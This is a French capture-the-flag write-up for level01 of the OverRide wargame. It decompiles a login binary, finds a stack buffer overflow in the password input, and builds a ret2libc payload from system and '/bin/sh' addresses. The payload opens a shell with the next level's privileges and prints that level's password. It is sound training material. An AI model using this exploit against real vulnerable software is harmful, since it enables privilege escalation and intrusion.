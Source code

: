 # **Level 01**

Premiere etape, comprendre le programme, on va donc decompiler l'executable dans un premier temps.

```
int verify_user_name(void)

{
  int iVar1;
  byte *pbVar2;
  byte *pbVar3;
  undefined uVar4;
  undefined uVar5;
  byte bVar6;
  
  bVar6 = 0;
  uVar4 = &stack0xfffffff4 < (undefined *)0x10;
  uVar5 = &stack0x00000000 == (undefined *)0x1c;
  puts("verifying username....\n");
  iVar1 = 7;
  pbVar2 = &a_user_name;
  pbVar3 = (byte *)"dat_wil";
  do {
    if (iVar1 == 0) break;
    iVar1 = iVar1 + -1;
    uVar4 = *pbVar2 < *pbVar3;
    uVar5 = *pbVar2 == *pbVar3;
    pbVar2 = pbVar2 + (uint)bVar6 * -2 + 1;
    pbVar3 = pbVar3 + (uint)bVar6 * -2 + 1;
  } while ((bool)uVar5);
  return (int)(char)((!(bool)uVar4 && !(bool)uVar5) - uVar4);
}



int verify_user_pass(byte *param_1)

{
  int iVar1;
  byte *pbVar2;
  undefined in_CF;
  undefined in_ZF;
  
  iVar1 = 5;
  pbVar2 = (byte *)"admin";
  do {
    if (iVar1 == 0) break;
    iVar1 = iVar1 + -1;
    in_CF = *param_1 < *pbVar2;
    in_ZF = *param_1 == *pbVar2;
    param_1 = param_1 + 1;
    pbVar2 = pbVar2 + 1;
  } while ((bool)in_ZF);
  return (int)(char)((!(bool)in_CF && !(bool)in_ZF) - in_CF);
}



undefined4 main(void)

{
  undefined4 uVar1;
  int iVar2;
  undefined4 *puVar3;
  undefined4 local_54 [16];
  int local_14;
  
  puVar3 = local_54;
  for (iVar2 = 0x10; iVar2 != 0; iVar2 = iVar2 + -1) {
    *puVar3 = 0;
    puVar3 = puVar3 + 1;
  }
  local_14 = 0;
  puts("********* ADMIN LOGIN PROMPT *********");
  printf("Enter Username: ");
  fgets(&a_user_name,0x100,stdin);
  local_14 = verify_user_name();
  if (local_14 == 0) {
    puts("Enter Password: ");
    fgets((char *)local_54,100,stdin);
    local_14 = verify_user_pass(local_54);
    if ((local_14 == 0) || (local_14 != 0)) {
      puts("nope, incorrect password...\n");
      uVar1 = 1;
    }
    else {
      uVar1 = 0;
    }
  }
  else {
    puts("nope, incorrect username...\n");
    uVar1 = 1;
  }
  return uVar1;
}
```
On peut donc voir que le programme nous demande un `prompt` d'un `username` puis un prompt pour un `password`;
Testons donc le programme,
```
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: test
verifying username....

nope, incorrect username...

```
En examinant un peu mieux le code, on peut voir que le `username` attendu est `dat_wil`
```
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
test
nope, incorrect password...
```

De plus, on constate que le `buffer` de la variable contenant le `password` est de `16` et que,
si l'on remplie le buffer de `80 characteres`, on `sigsegv`
```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
01234567890123456789012345678901234567890123456789012345678901234567890123456789
nope, incorrect password...

Segmentation fault (core dumped)
```
Notre objectif va donc d'utiliser la place disponible dans le buffer de password pour reecrire le return du main
Exploit -> `Ret2libc`

> Pour une rapide explication ce au'on appelle `ret2libc` est un exploit utilisant `eip` pour jump dans la fonction `system` avec pour argument la commande voulu, ici `/bin/sh`
> Pour plus d'info [How to perform a ret2libc attack](https://shellblade.net/files/docs/ret2libc.pdf)

Pour ce faire nous allons devoir trouver l'`adresse` de la `fonction system` et une adresse d'une `string` contenant `/bin/sh`
```
level01@OverRide:~$ gdb ./level01 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80484d5
(gdb) run
Starting program: /home/users/level01/level01 

Breakpoint 1, 0x080484d5 in main ()
(gdb) info func system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
```
Adresse de system -> `0xf7e6aed0`

```
(gdb) find __libc_start_main, +9999999, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
Adresse de "bin/sh" -> `0xf7f897ec`

Nous pouvons donc maintenant creer notre payload:

premier prompt -> [dat_wil]

second prompt -> [80 characteres] [addr system] [4 characteres] [addr "/bin/sh"]

`(python -c "print 'dat_wil'"; python -c "print '\x90'*80 + '\xd0\xae\xe6\xf7' + 'AAAA'+ '\xec\x97\xf8\xf7'") > /var/crash/file`

```
level01@OverRide:~$ (python -c "print 'dat_wil'"; python -c "print '\x90'*80 + '\xd0\xae\xe6\xf7' + 'AAAA'+ '\xec\x97\xf8\xf7'") > /var/crash/file
level01@OverRide:~$ cat /var/crash/file - | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

id
uid=1001(level01) gid=1001(level01) euid=1002(level02) egid=100(users) groups=1002(level02),100(users),1001(level01)
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
